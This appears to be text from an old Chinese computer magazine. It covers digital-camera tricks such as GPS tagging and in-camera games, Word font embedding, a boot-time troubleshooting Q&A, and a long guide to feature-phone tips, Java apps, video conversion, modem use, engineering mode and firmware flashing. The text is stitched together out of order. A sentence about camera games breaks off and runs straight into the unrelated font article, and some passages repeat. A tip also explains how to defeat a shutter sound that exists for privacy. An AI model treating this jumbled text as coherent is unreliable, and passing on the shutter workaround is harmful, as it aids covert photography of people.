通过GPS定位系统，使用这款相机拍摄的每一张照片都会被记录详细的经纬度位置信息，并可传输至电脑中，用户在查阅这张照片时，可以点击链接到Google地球服务，查看拍摄地的地理位置。对于征战各地的驴友们来说，无疑是非常有用的。运行Exif查看图像后，在EXIF信息列表栏中点击鼠标右键，选“定位查看GPS卫星地图”项，即可打开Google Maps卫星地图，在网络上看到包含GPS信息的图像后，可在图像上点击鼠标右键，选“定位查看GPS卫星地图”项，即可打开Google Maps卫星地图。也可在资源管理器中直接点击图像文件右键菜单，选“定位查看GPS卫星地图”项，即可打开Google Maps卫星地图。另外我们也可让普通数码照片也具有GPS地图定位功能，就是利用专用的EXIF编辑软件（如Opanda PowerExif），为普通图像添加GPS信息，这样得到的图像，一样可以具有GPS地图定位功能。如图2。



图2 用照片做GPS定位

去年索尼发布了一款名为GPS-CS1适配器及相关软件。该适配器能将GPS（全球定位系统）与数码影像技术融为一体，可以同步记录包括定位、时间、拍摄设置等在内的各类数据。GPS-CS1适配器有持久的电池续航能力，能连续工作14小时。其内存记忆体足以储存长达一个月之久的数据。其实我们也可以使用带GPS功能的PPC手机，再配合GPS Tracker软件就可以时间为基础，将GPS日志以Exif格式添加到照片中。Picture Motion Browser浏览器则能够与Google Maps相连接，进一步在地图上显示相片。使用PhotoStudio也能把GPS信息添加到数码相机照片文件的EXIF数据中。

#### 12. 有趣体验 用数码相机玩游戏

用数码相机玩游戏是很不错的体验。比如富士FinePix V10就有一个特色功能，就是内置了四款包括射击，迷宫、拼图以及打砖块等好玩的游戏，当你觉得旅途无聊，或者实在没有什么好拍的时候，可以用它3英寸的大屏幕来## 字体设置与使用技巧

◆文/TMG zcy

### 分享字体、分享喜悦

字体虽然好看，但是有好东西我们还是愿意和朋友一起分享，我们总不能把朋友叫到跟前参观吧？更不至于把东西都打印出来分发给大家。系统字体我们没办法和他人共享，可是文档呢？应该总可以吧？

假如我用叶根友奥运字体来为一篇文章写标题的话，效果十分不错，连自己都陶醉了。兴奋而骄傲地发给其他人后才发现，人家并没有安装这个奥运字体库，恐怕不能看到。如果真是这样的话就太可惜。不用着急，只要是Word程序文档就没问题。具体做法步骤如下：

我们打开这个Word文档，在菜单栏中单击“工具”选项，再选择“选项”，在弹出的窗口中切换成“保存”标签，并且勾选中“嵌入TrueType字体”，以及连带的“只嵌入所用字符”，单击“确定”按钮，一切就都顺利搞定了！

现在，你只要把它再次保存好，给朋友再发送一遍，你的朋友就一定能看到你的得意之作了！以后不用管他们是不是也有和你一样的字体库，他们都能欣赏你的创意喽！不过，我还是相信，如果你的朋友看到了如此精彩的文字，一定会眼红得不得了啊，那时候还能有几个人无动于衷呢？过不了多久，你的朋友也都成了给字体变魔术的高手！

综述：最后，我们还要说明一点，除了我们提到的众多中文字体之外，还有很多其它类别的字体，如英文字体、POP字体等，都是非常能干的。而且，同样的文字它们可以打造为各种各样的风格。在这个追求个性的时代里，于电脑字体而言，那些极具特色的个性字体便成为人们，尤其是年轻人的钟爱，再如金梅浪漫字体、小丸子字体等等都是很好的例子，深受mm们的追捧。此外，一个人的电脑外观和系统的设计效果、风格与其本人的性格特点等因素都有着很大的关系。使用可爱型字体的人一定也活泼可爱、使用豪迈的书法字体的人也肯定会具有广阔的胸襟和大将风范……亲爱的朋友，你又是哪种性格特点的人呢？没关系，不急于回答，有那么多的字体种类能够帮你的忙，肯定会有一款适合你的字体的，相信，你一定可以为自己建设出一个真正属于自己的园地！

### 傻博士问答：显示蓝天白云图的时间太长

故障现象：启动计算机时，Windows系统会显示蓝天白云图，其显示时间一般在半分钟左右。但一台PentiumIII品牌机在显示蓝天白云图的时间长达两三分钟，而且期间没有任何响应。从配置情况来看，Pentium III处理器加上256MB内存不应该如此慢速，而且该品牌机也没有安装网卡。

故障分析：显示蓝天白云图时，系统主要是在执行Config.sys、Autoexec.bat以及Win.ini、System.ini和注册表中的启动选项，若上述文件中的自启动选项太多，就会极大地影响系统的启动速度。另外磁盘出现坏道及系统中存在病毒也会影响系统的启动速度。

解决方法：首先检查Autoexec.bat文件，看其中有没有比较耗时的DOS程序命令行，若有，可根据自己的需要进行取舍，然后再查看Win.ini、System.ini和注册表中的启动选项。如果这些文件中的启动选项都被取消后，蓝天白云显示的时间仍然很长，就应该怀疑系统被病毒感染了。若病毒原因也被排除，就应该考虑是磁盘故障了。首先对磁盘进行全面扫描，检查硬盘是否存在坏道，然后运行磁盘碎片整理程序，最后运行磁盘清理程序，清除计算机中的垃圾文件。

### 玩游戏，岂不是很棒？

这里要为大家介绍一些老数码相机的游戏功能。过去有多款数码相机采用了Flashpoint公司的Digita Operating Enviroment ( Digita OE )数码相机专用操作系统，比如Kodak的DC220、DC260、DC290和hp的C500、618、912等都采用了这款操作系统。Digita OE不仅整合了相机必需的基本功能，而且还可以通过编写专用的Script或应用程序来扩展相机的功能。因此，就出现了基于Digita OE的相机游戏。如果你拥有上述机型就可以尝试到网上下载(Digita.mame.net)与你的数码相机型号相匹配的模拟器文件。之后，将它们的主程序拷贝到相机闪存卡上的System文件夹里。然后将游戏ROMS放到闪存卡的System \ Roms文件夹里，再将要运行的程序改名为Default.CAM，这样开机程序就会自动运行了，然后你可以在数码相机上玩游戏了。

#### 13. 其他另类用途：照明、监控等

在黑暗环境中，我们可以打开数码相机闪光灯拍摄一张浅色物体的照片，再回放此张照片就可以用来应急照明了。而数码摄像机身上有两个地方可以当作手电筒，一个是液晶显示屏，另外一个就是一些型号的机器具备的LED摄影灯，在亮度不足时，可以开启内置式LED摄像灯弥补光线的不足，而且发光二极管（LED）具有耗电量低、工作时间长、安全的低温工作等特点，非常适合在黑暗的环境下作为手电筒使用。数码相机还可以做监视器用，现在有些数码相机支持间隔拍摄功能，可在一定时间间隔内连续对某个景物拍摄一系列图像，用户可以将相机放置在三角架上，选择好拍摄间隔时间按下快门，数码相机就会根据设置不停拍摄图像，直到存储卡满为止。这种模式可用来实现一些特殊功能，比如用于监视办公场所中某些重要部分的情况。有个别相机更是具备声控快门功能，用来监视拍摄就更方便了。总之数码相机是传统摄影行业的一革命，它的用途是非常广泛的，我们不要将其功能仅仅局限在拍摄照片上。本文仅起到抛砖引玉的作用，只要用心，一定还能发掘出手中数码相机更多方面的功能和应用。

### 手机绝非只用来打电话：非智能手机高级功能应用技巧



◆文/龚师傅

智能手机功能很强大，但需要花时间去研究，有时稍微操作有误，就要死机甚至丢失数据，而且价格高、反应慢。另外，多数智能机不支持FM调频、AV输出等特殊功能。其实现在非智能手机功能越来越强大，只要玩好了，也可以满足我们的大多数需求。

#### 一、普通手机各有不同：非智能手机平台简介

我们知道，智能手机有WM、S60、PALM、LINUX等四大平台，其实目前非智能手机也分不同的平台，这反而不为大多数朋友熟知，下面我们就对相关平台特点作一简单介绍。

##### 1. 诺基亚S40平台

诺基亚S40是非常优秀的非智能手机平台，运行稳定、快速，功能丰富，诺基亚对S40平台的定义是为大众市场准备的Java手机平台，目前经历了四个版本的发展。相对S60而言，S40是构建在诺基亚自身的封闭操作系统平台上的，由于底层没有采用Symbian OS操作系统，S40平台不能支持C++程序开发，操作系统的扩展性仅限于JAVA程序的应用。目前常用的第三版Seires40平台是一个包括硬件、软件和应用程序编程接口的完整体系结构，提供增强型的用户界面并支持丰富的多媒体应用程序，着重针对游戏和娱乐应用进一步强化，增加了3D图像引擎，对JAVA提供更完善的支持。S40前两版普遍存在的屏幕较小、分辨率偏低的问题也得到明显改善，待机界面上出现的类似Windows Mobile系统的快捷图标菜单可由用户自行定义，有效提高了操作效率。前不久诺基亚正式发布第五代S40平台，它融合了Java (TM) 平台Micro版 (JavaME) 技术，支持最新版本的移动信息设备框架，提供一个增强型用户接口（UI），利用这个接口开发商能够在众多诺基亚移动设备上增加更丰富的多媒体应用和服务。

另外JAVA从Java MIDP 2.0升级到2.1版，在Canvas（应用程序可以画或捕捉用户输入的屏幕区域）显示时支持媒体硬键（hard-key）。

##### 2. 联发科技MTK平台

中国台湾的MTK公司产品因为集成较多的多媒体功能和较低的价格在大陆手机公司和手机设计公司得到广泛的应用。由于MTK完工率较高，基本上在60%以上，这样手机厂商拿到手机平台基本上就是一个半成品，只要稍稍加工就可上架出货了。这也正是许多二线国产手机和黑手机都使用MTK的最主要原因。但MTK解决方案导致国产手机功能严重同化，使国产手机开发商缺少了自主研发的锻炼。其实MTK本身并不差，芯片是非常好的，只是他做得太多了。MTK经过几年的研发积累，其新一代的2.5G基带芯片的确很成熟了，对多媒体的支持，系统的稳定性，特别值得一提的是MTK基带芯片的运行速度以及功耗，目前主流机型常用MT6226则为MT6219AT的COST DOWN产品，功能更强大。一开始有MT6226A,现在则为MT6226B、MT6226M。MT6227的功能与MT6226的基本一样。MT6228比以上两者多TV OUT功能，内置3.0M CAMERA处理IC，其中MT6226以后的CPU在软件平台上可支持网络摄像，可用于视频拍摄。另外最新的MTK6229平台开始支持EDGE上网。

##### 3. 其他手机平台

目前市场上主流的手机平台有TI、摩托罗拉、飞利浦、MTK、ADI、展讯、英飞凌、凯明、博通等。其中TI平台占有率最高，目前国际大厂低端产品多采用TI的低端（LOW COST）解决方案。另外现在还有厂家选择Sasken应用框架作为其应用解决方案，用于开发基于TI OMAP-Vox平台的特色手机。TI OMAP-Vox手机单芯片平台完美结合了TI多项成功技术。新型“eCosto”平台系列的首款产品OMAPV1035单芯片解决方案将采用65纳米制造工艺，并支持GSM、GPRS以及EDGE等标准。“eCosto”平台提供丰富的多媒体功能，其中包括高级视频采集、回放与流媒体等。该产品能够以每秒30帧的播放速度支持QVGA显示屏，支持高达300万像素的数码相机，另外还支持互动3D游戏。展讯SC6800系列是专为多媒体娱乐手机而设计的GSM/GPRS/EDGE基带单芯片。SC6800采用了先进的SoC芯片设计技术，在单芯片上集成了完整的GSM/GPRS/EDGE数字/模拟基带电路、电源管理电路及多媒体处理功能。内置强大应用处理器的SC6800系列芯片，实现了增强的手机视频处理、高清晰度成像以及2D/3D图像加速等丰富的多媒体应用功能，促进了功能丰富的功能型手机及智能型手机的设计开发。

##### 4. 非智能手机未来发展

随着技术的发展，非智能手机的功能越来越丰富，与智能手机功能差距缩小，比如七喜H787就加入了全屏手写、名片识别等以前智能手机才具备的功能。另外还有一些介于智能和非智能之间的手机类型，比如苹果公司的iPhone，虽然具有自己的操作系统，但是却采用了封闭设计，使用者想要自行设计及安装第三方软件变得不可能，摩托的E2也是一款使用LINUX内核的半智能手机。夏新智帅系列则采用所谓“智能Newplus多任务操作系统”，其实Newplus却并非一个智能手机操作系统，而只是手机软件开发平台而已。今后非智能手机会得到进一步加强，比如目前只能在智能手机上运用的GPS，随着新的软件GPS方案推出，将大

#### 二、让普通手机智能化：JAVA扩展应用

我们知道，智能手机最大的特点就是可以通过安装各种软件来扩展功能，其实现在很多普通手机也能在一定程度上“智能”起来，这就是通过安装JAVA程序来扩展应用。

##### 1. JAVA应用概述

JAVA是SUN公司开发的一门跨平台编程语言，无论是在电脑、手机、PDA还是家电，只要有JAVA平台，那么用JAVA编写的程序都能够在这些设备上面运行。在手机上应用的JAVA被称为Kjava技术即J2ME (Java 2 Micro Edition)，由SUN公司联合18家手机终端厂商和无线通讯运营商共同定义了Kjava标准，即J2ME MIDP标准，具有跨平台性，可用于任何通讯制式和系统平台的手机。Kjava软件的开发应用可以在手机上运行计算器、游戏、个人信息处理、电子地图、股票等服务程序以及企业无线终端等。在手机上应用JAVA的鼻祖是西门子，在其著名的6688I中，可以使用JAVA软件来扩充功能。大部分KJAVA程序主要由2个文件组成。一是扩展名为jar的文件，二是扩展名为jad的文件。JAR文件是安装JAVA应用的数据文件，而JAD文件是安装的信息文件。JAD文件里面包含了程序的大小、名称、类型、安装路径、版权等等信息，我们可以通过修改JAD文件，来改变Java程序的安装路径。在实际安装过程中JAR文件是必不可少的，JAD文件则不是必需的。另外要注意手机上的JAVA平台也有版本之分，JAVA程序需要与之配合，目前大多数手机都支持JAVA MIDP2.0。

##### 2. JAVA的安装方法

不同手机安装JAVA程序的方法不完全一样。有些只支持通过WAP网络下载安装，有些则可以拷贝到存储卡上安装。而目前最新款的手机则做到了“免安装”，也就是说只需将JAR文件拷贝到手机或存储卡上，无需安装就能直接执行，无疑这是最简单方便的。但大多数手机还是需要安装，下面简单谈一下一般的安装方法。比如摩托V3x，将JAVA安装到TF卡的方法如下：取出TF卡，通过读卡器连接PC的USB接口，把要安装的JAVA应用的两个文件(jad/jar)拷贝到TF卡的Kjava目录，把卡装回手机，然后按中心键→程序和游戏→安装新的应用程序，找到刚刚拷到卡里面的JAVA文件，按中心键安装，安装提示Java程序的明细，按左功能键安装。然后出现安装Java的认证信息，按左功能键安装，按左功能键继续安装。注意：有些手机要求必须有JAR和JAD两个文件，如果我们手上只有JAR文件也不要紧，可以在PC上用JAD生成器生成JAD文件。而某些手机（如联想P768）要非在线安装JAVA，则需在待机状态下键入####9999#这个暗码。键入这个命令后，JAVA文件夹里的程序就被复制到手机系统里，等完成后会自动返回待机状态。再进入主菜单→娱乐天地→百宝箱，手机就能自动安装已经拷入系统的游戏和程序了。另外有些手机要安装JAVA程序，还需要在PC上先安装一个特殊的同步软件。最后我们要注意JAVA与手机的兼容性问题，这里主要是版本和屏幕分辨率要匹配，还有些机型对JAVA文件的大小有限制，另外有些JAVA程序只能在特定机型上运行。

##### 3. 常用JAVA软件推荐

目前网络上的JAVA应用软件非常多，我们根据自己的实际需要安装合适的即可。从我的经验看，一些常用工具，如计算器、英汉词典、电子书阅读器、常用游戏等，一般都应安装，而喜欢上网的话，UCWEB是必装的软件，这是一款国产的专门用于手机上网的优秀软件。基于JAVA平台的UCWEB，可以浏览带有帧的复杂网页，支持边下载网页边浏览，浏览复杂网页的速度不亚于浏览普通网页。Ucweb在大多数论坛可顺利发帖子，非常便捷。现在有不少朋友一刻也离不开QQ，手机和QQ聊天软件结合，就可以在不用电脑上网的时候也能用QQ和好友保持在线联系。在手机上玩QQ并不是什么稀奇的事，不过大多数手机内置的QQ功能都比较弱。我们可以安装功能强大的QQ2007移动版，它具备了台式机QQ2007的主要功能，可以进行语音聊天、文件传递，甚至还能对Qzone进行管理，在手机上就能传照片、写日志。其他诸如Mimo JAVA版，在其“Push超级邮”功能中，我们只需进行简单的设置，就能对绑定的邮箱实现PUSHMAIL功能。只要Mimo在运行中，你就能即时得到新邮件的提示信息，并能进行包括附件在内的邮件收发。而PingGO这款JAVA软件，则可以实现短信的免费发送，建议安装。最近股票市场很火，最后再为大家介绍几款手机上的股票资讯软件：如投资通、大智慧、风帆理财、天网股票等。这些软件功能都大同小异，包括实时行情，在线交易等。要提醒大家注意的是，使用这些软件时小心落入“包月收费”的陷阱。

#### 三、随身LOMO的乐趣：摄影摄像应用技巧

现在普通手机的拍照功能越来越强大了，很多产品支持自动对焦等高级功能，不过要想使用照相手机拍出高品质的照片，还是有很多技巧需要掌握的。

##### 1. 手机拍照的相关知识

了解一些手机照相的基本知识和参数对使用手机拍摄好照片是很有帮助的。像素：目前衡量手机拍摄能力强弱的主要参数还是摄像头的像素数，一般实际物理像素在130万以上才有实际应用价值。另外要特别注意不要被商家的“插值像素”忽悠了。感光元件：所谓感光元件就是指将光信号变化转换为电信号变化的元件，目前大多数手机都使用CMOS。CMOS结构相对简单，生产成本低，耗电省，但在弱光环境下，表现大多不尽如人意。只有少数高端产品采用CCD作为感光器件，拍摄效果要好不少。自动对焦：是指手机能自动完成对被摄物的对焦，并达到使影像清晰的功能。目前市场上的少数专业拍摄手机才具有该项功能。而大多数普通手机都是使用“泛焦”拍摄。手机摄像头具备自动对焦的意义非常大，如果一款手机不支持自动对焦，那么它将很难拍摄清晰锐利的照片。另外部分手机支持手动微距和对焦功能。

ISO感光度：目前较为专业的照相手机已经引入了ISO感光度调整功能，在弱光环境下会自动提升感光度。数码变焦：现在除了极个别高端手机具备光学变焦外，大多数手机都采用的插值手段进行“数码变焦”并无多大实用价值，还会降低画质。在拍照时尽量避免使用。闪光灯和补光灯：目前只有索爱K790等极少数专业拍照手机采用了真正的氙气闪光灯，大多数手机只有强度和补光范围较小的LED补光灯。

##### 2. 手机拍照的一般技巧

合理构图、注意光线：一般应使被拍摄对象处于画面中间，并注意光线，观察光线的照射方向，通常要顺着光线拍摄，尽量使被拍摄物体能自然地被光线照射到。从侧面射入的光线能更好地突出物体的质感，要尽量利用正侧面光。必须逆光或者侧逆光拍摄时，可以考虑用物品遮挡，以缓解逆光的不良影响。

持稳拍摄、距离适中：具备AF功能的照相手机延迟现象比较明显，在按下快门的瞬间如果手抖动了，拍出的照片会发虚或模糊不清。所以在拍摄时一定要持稳手机，同时在按下拍摄键后一定要停顿一下，稍等一两秒再看拍摄效果。另外大多数手机都是利用“超焦距”原理来拍摄，因此被拍摄的主体应该在一个适中的位置上（一般在2米左右）才能获得最清晰的效果。

设置合理拍摄模式：比如在拍摄夜景时如果仍用自动模式，手机会根据亮度自动闪光拍照，结果近处的人物被照亮了，背景却因为闪光灯照不到而漆黑一片。而采用夜景模式时，手机会关闭闪光灯，而通过延长曝光时间来获得满意的效果。

合理使用曝光补偿：用手机拍照时手工所能控制的参数很少，但“曝光补偿”这一功能基本都是具备的。尽管手机自动测光基本上能满足一般摄影的曝光准确性，但测光系统总有这样或那样的限制，在现场光线情况很复杂或逆光等情况下，自动测光就可能不准确了，这时如果进行人为的相应调节可提高图片曝光质量。“曝光补偿”就是处理这一问题的必要手段。比如在逆光拍摄的情况下，大部分测光器往往会判断失误，强烈的白光会导致测光器测出曝光不足的数值，这样拍出的照片看上去就会灰蒙蒙的，如果拍摄人像的话，主体很可能会“一抹黑”，这是比较典型的测光失误。对于这种情况，“曝光补偿”控制是一种很有效的工具，它可让拍摄者在自动测光所设定的设置外增加或减少一些曝光量，从而使拍摄主体曝光正确。

用手机进行摄像的技巧也和照相差不多，我们要注意构图和光线等运用。另外在摄像时我们可以根据需要适当进行数码变焦，及黑白、复古等效果的设置，因为录像的这些效果在后期处理时是不方便加上的。另外现在有少数手机带有TV-IN功能，可以连接视频源进行录像操作，合理运用也比较有意义。如图1，只要掌握好技巧用，手机也可拍出不错的照片。



##### 3. 手机摄像头的高级用途

手机摄像头的功能不仅限于拍照和摄制录像片段，在某些手机上还有更高级的用途，比如可以进行名片识别，利用该功能可以方便快速地录入联系人的名牌信息。拍摄时要注意使用微距拍摄模式，并在光线充足的地方拍摄。

另外利用摄像头还可以实现二维码应用，现在使用普遍的条形码可以称为一维码。但条形码存储的信息太少，于是就发展出二维识别码。二位码直观上看，是密密麻麻的黑白斑点和黑白相间的马赛克图片，简单说就是在水平和垂直方向的二维空间存储信息的条形码。从一维到二维的跨越，大大提升了码图的信息含量，一维码只能存储十几位的数字；而二维码能包含上万个汉字，以及其他多媒体信息。比如在名片一角印上二维码，可以包含更多的信息。目前中国移动在大力推广二维码的应用，比如“手机电子登机牌”，登机信息以二维码彩信的形式发送到手机上，凭此在机场自助办理登机手续。还有二维码电影票、小额支付等。二维码在实际使用过程中，首先要有二维码的生成和识别软件，同时手机摄像头要具备微距拍摄功能，才能通过手机方便地使用二维码。如图2，手机二维码。


<小贴士> 如何关闭手机拍照的快门声音

手机拍照时如何关闭快门声是不少朋友关心的话题，国产MTK平台的照相手机大多可以直接选择关闭。而国外品牌的产品出于隐私保护等原因，很多都无法关闭，甚至在静音模式下也不行。只能用其他方法加以解决，有些智能手机如摩托A1200等可以通过安装软件来关闭，而非智能手机无法简单关闭，只能通过刷机，或使用其他变通方法加以解决，比如在拍摄时拨通一个免费电话，在通话过程中拍摄就没有快门声了。另外很多机型插上耳机也可以让拍照时无声。

#### 四、影音娱乐中心：音视频播放技巧

现在大多数手机都能播放MP3、MP4等影音文件，但非智能手机在影音播放上与智能手机相比存在一个大的弱点，就是支持的播放格式是固定了的，不像智能手机那样，通过安装不同软件来播放不同格式的文件。因此，我们只能在电脑上改变文件格式来适应手机。

##### 1. 音频格式转化

现在有不少支持AAC、M4A格式的音频文件，不少朋友对这类格式还不太了解。其实AAC格式是非常优秀的一种音乐格式，可以用比MP3文件小一半的体积，获得更好的音质。因此使用AAC格式可以大量节省我们的存储空间，这一点对某些无法扩充容量的非智能机而言很有实际价值。建议大家使用“千千静听”来转换。千千静听不仅是音乐播放的好手，也可以进行音乐格式转换，包括转换为AAC格式。转换过程很简单，只要将要转换的文件加入播放列表，鼠标左键选中后鼠标右击，在“转换格式”中选择输出格式为“NZT AAC 编码器”即可。

右键菜单中选“格式转换”，选择好“输出格式”、“输出位置”等项，单击“立即转换”按钮即可。Total Video Converter（简称TVC）这款软件，也支持各种音视频文件的格式转换，可以把MP3转成iPod MP4格式。如图3，用千千静听转换音频格式。

刚才生成的AVI文件，在文件菜单中选择输出，就可以另存为其他格式，其中第一项就是3GP，点“选项”按钮可以进行各种调整。

另外我们还可以使用一款免费软件叫Xilisoft Video Converter，它是一款功能强大的MP4视频转换器，可以在DVD、VCD、SVCD、MOV、RM、AVI、MPEG、WMV等格式间相互转换，你可以指定视频和音频编码器、设置各项输出参数，其重要之处在于：可以从视频文件转换出任意流行的音频文件，诸如MP2、MP3、AC3、RA、M4A等。此工具支持多线程，可以同时进行多个文件的转换，所有的转换过程都非常简明快捷。

支持超大型视频文件，最高可以达到2GB。

最后提一下，大多数非智能手机可以直接支持各种规格的JPEG图片浏览，另外现在具备TV-OUT的手机也不少，我们可以加以充分利用，在有条件连接电视机的地方，用电视机来欣赏手机上的视频文件是非常不错的选择。

要实现音频格式的转换还推荐大家使用“超级转换秀”这款软件，它可以将几乎所有网络音频格式转化为MP3文件。运行后，我们只要点击“添加待转换音频→添加一个音频文件”或“添加目录下的所有音频文件”，“超级转换秀”会自动弹出一个转换参数设置窗口，让你设置要转换导出的格式、比特率等，设置好转换参数后，如果是转换单个音频文件，还会弹出“截取分割音频”对话框，在上面你可以选择全部截取完整的音频，也可以选择截取分割其中的一小段音频。我们就可以点击“开始转换”按钮来转换了。

##### 2. 视频文件转化

在手机上观看视频文件更加麻烦一些，由于屏幕尺寸和支持格式的限制，通常需要进行视频格式的转化，比如像诺基亚6230等大多数非智能手机都需要将常见的MPEG文件转化为3GP格式才能进行播放。那么具体怎样进行制作呢？我们需要准备好EO VIDEO和QUICKTIME PRO6.0这两款软件。

先用EO VIDEO把短片转换成QUICKTIME支持的格式。通常转化为AVI或MPEG格式，然后在Compression（压缩）中可选择采用的压缩编码方式，同时还应设定好输出视频的大小等参数，画面大小应该比手机屏幕的分辨率稍小。设置完毕，单击左面列表中的Output按钮，设置保存的目录和文件名，然后单击左面的Convert（转换）按钮，单击Start按钮就可以开始转换。接着再把转换好的文件，用QUICKTIME PRO转换成3GP格式（即MPEG4格式）。打开刚才生成的avi文件，在文件菜单中选择输出，就可以另存为其他格式，其中第一项就是3GP，点“选项”按钮可以进行各种调整。

##### 3. 视频文件分割

在手机上观看视频时，我们常常需要对视频文件进行分割。比如只截取视频的高潮部分。你可以使用下面的工具软件来实现此目的：

ASF/WMV Splitter是一个可以帮助你分离、切割、修整大型的AVI、MPEG、ASF或者WMV文件的视频转换工具，程序内置播放器，你可以按照时间将你喜欢的片断很轻松地截取下来，也可以帮助你将大型的多媒体视频文件分割为一个个小的多媒体视频文件，支持AVI、DIVX、MPEG-1、MPEG-2、MPEG-4、ASF、WMV、WMA等多种常用的视频文件格式。支持超大型视频文件，最高可以达到2GB。

而3GP手机视频转换王是一款强大易用的3GP视频转换软件，几乎能够将电脑上能播放的所有视频文件转换到当前市面主要的3GP手机上使用，而且这款软件也是免费的。如图4，掌中影音伴侣是玩非智能手机的必备软件。

#### 五、能省则省：把你的手机作电脑外设

##### 1. 蓝牙遥控器

随着电脑家电化步伐的加快，遥控电脑成为很多朋友的需要。除了选择无线键盘鼠标外，我们也可以利用手中一些现成的工具来遥控电脑，享受创新的乐趣。下面就让我一一道来。首先买一个USB蓝牙适配器，在电脑上安装并配置好，如果你的手机具备蓝牙功能，那么去网上搜索一款名为“PC Control”的软件，下载后安装在需要遥控的电脑上。运行它，在屏幕上会出现一个小窗口，首先选择蓝牙适配器所虚拟的COM口，再按Connect按钮，一切正常的话，PC将会和手机连接。然后点Settings，打开设置画面。随后进入手机“附加功能”->“附件”选单，会发现“PC Control”就在其中，你就可以使用手机遥控电脑上运行的Winamp，播放自己喜欢的歌曲，在用PowerPoint做演示时，我们还可以远离电脑，用手机上下翻页，而且由于使用了先进的蓝牙进行连接，可以不受视距及遮挡物的限制，十米之内皆可随意遥控，是不是很酷？

##### 2. 无线MODEM

很多非智能手机可以使用数据线、红外线、蓝牙等连接途径与电脑相连，成为电脑的无线MODEM，方便地随时上网。下面分别加以介绍。

数据线：先用数据线连接手机与电脑，电脑会检测到新的USB设备，只要根据系统提示一步步安装就可以了，记住驱动程序通常在随数据线附送的光盘当中。安装完成后，系统会自动生成一个USB MODEM。接下来我们使用这个USB MODEM建立一个拨号连接，在“控制面板” -> “网络连接”下选择“新建连接向导”，然后依照系统提示依次执行就可以了，电话号码填*99#，其他用户名密码之类的都不要填，过程很简单。注意在额外的初始化命令中填入at+cgdcont=1,"ip","cmwap"(或"cmnet")。

红外线：首先打开笔记本电脑和手机的红外线接口，将两个接口相对，这时笔记本电脑会自动识别出有一个红外线设备连接到笔记本电脑。然后进入控制面板的‘调制解调器’中，添加一个‘标准33.6k Modem’，注意选择红外端口。再新建一个拨号连接，选择刚才添加的MODEM拨号，点击下一步，在电话号码的框内输入*99#。用户名、密码留空就可以了。

蓝牙：笔记本电脑与手机之间通过蓝牙相连后进行上网操作则更加方便，既不需要一根数据线将手机‘栓’在笔记本电脑上，也不需要将二者的红外窗口严格对准，可以将手机随意挂在腰间或放在包中。我们首先开启手机蓝牙功能，并设置为可接收状态；然后在手机端搜索新的蓝牙设备，发现电脑上的蓝牙接口后相互进行配对，成功后二者就进行了绑定。PC上的蓝牙设备安装好驱动程序后，会自动在拨号网络建立三个拨号连接，其中一个是Bluetooth Dial-up Connection，双击该图标，在弹出的窗口中‘用户名’和‘密码’留空，‘拨号’输入‘*99*1#’（具体号码可咨询当地移动运营商），便完成了无线拨号设置，点击‘拨号’按钮，几秒内即可接入GPRS网。如图5，手机连接电脑作为MODEM通常需要安装驱动程序。

##### 3. 摄像头、录音笔

大多数手机都有录音功能，不过录制格式是不太常见的AMR格式，如果能将录音传到电脑上，并转化为通用格式，这样我们的手机也就可以变一个录音笔或采访机了。录制完成后，用数据线或蓝牙将AMR文件传到电脑上，然后再用合适的软件将该文件转化成我们常见的WAV、MP3等格式即可。另外现在有部分手机支持网络摄像头功能，连接电脑后会提示你选择USB连接模式，我们选择USB摄像头，再安装相应的驱动程序（有些手机的摄像头在XP下可以不用安装驱动即能识别），就可以在QQ等软件中使用该摄像头进行视频聊天了。

#### 六、其他高级应用：工程模式 刷机补丁

非智能手机玩机中具有一定难度和最大的乐趣应该在于工程模式应用和刷机应用。下面我以两款较老的机型为例，说明这两项非智能手机高级应用的相关情况。

##### 1. NOKIA 8210工程模式应用

手机工程模式顾名思义是指手机在工程测试状态下的模式，它主要是为移动基站负责维护系统的工程人员或手机工程师判断各种通讯参数而设计的。依据在工程模式中的相关数值，工程师们就无须借助大型维护和测控设备，而准确地掌握基站情况，并且能提早处理可能出现的问题。现在有些手机发烧友就喜欢像手机工程师一样，借助手机工程模式来研究手机基站位置、信号强弱、系统供应商代码等等内容，借以体现‘老鸟’的功力。如图6，显示的是诺基亚8210工程模式。

诺基亚手机的工程模式功能是很强大的，其名称为‘Net monitor’，在8210上有一百多个画面。前19个画面称为Operator Net Monitor，以系统网络功能为主（比如可以固定开启背景灯），后面的则被称为R&D Net Monitor，以手机软硬件的资料为主。能开启诺基亚8210手机工程模式的软件很多，如著名的LogoManager就可以通过数据线或笔记本自带的红外线打开手机的工程模式，执行Logo Manager的‘tools’→‘network monitor’命令即可，注意在模式上要选择‘engineering’命令，这样才能完全发挥工程模式的效用。

Net monitor包含两种模式：资料显示模式（data display mode）和执行模式(execute mode)。进入资料模式的方法是在菜单选项中按上下键切换到Net monitor，按确认进入。在资料显示模式，可以在主画面中看到测试值，例如channel(频道)、Power Level、Cell ID等，利用上下键可轻松地转换测试项目（左上角的数字就是表示显示是第几个画面），而不必再回到菜单选项。执行模式是在工程模式中直接输入数字进入，是一次显示一种的形式，若要在执行模式下进行另一种测试，则必须重新启动Net monitor选项，然后再进入该选项一次。进入工程后，画面1.2显示基站信号等常数值，其中大多数参数的含义很专业，一般用户不必了解，下面介绍几个有用的参数：其中R×L显示接收强度（单位：-dBm），范围从-110～0，因为该位置只能显示3位，显示100实际上是-100，一般低于-100手机已无信号。而TxPwr显示通话中手机的功率发射强度(Power Level)，显示范围0～19。RQ表示通话品质，取值范围0～7，数值越大，通话品质越差。TA(Time Advance)为时间前置量，显示手机和基站间距离。该数值乘以500可换算为米，不过因受电波反射吸收等影响，TA值仅供参考用，TA值范围0～63。如图7，通过工程模式我们可以看到环境温度。

##### 2. 西门子6688刷机、打补丁实例

西门子6688是手机史上一款非常著名的产品，其影响至今犹存。其率先支持播放MP3和JAVA扩充，而且还能够自行修改手机系统，改变及增强手机功能。下面简单介绍一下刷机方法。首先要准备好v-Klay多国语言版，这是刷机刷补丁必备的软件。当然还需要准备刷机数据线和FLASH文件数据包。如图8，著名的西门子6688手机。

刷机前，请首先备份自己的电参和EEP。电参直接影响机器的待机时间，如果原始电参丢失，要找到适合自己机器使用的电参比较麻烦。甚至连开机都成问题。所以这一步是必需的。6688有6MB大小的FlashRom，都是可擦写的。其中的一部分专门用来存储手机的各种设置（比如最近的铃声大小信息、重要记事、铃声设置、日期格式等等），这一部分叫做EEP。最好也备份出来，以备日后不时之需。

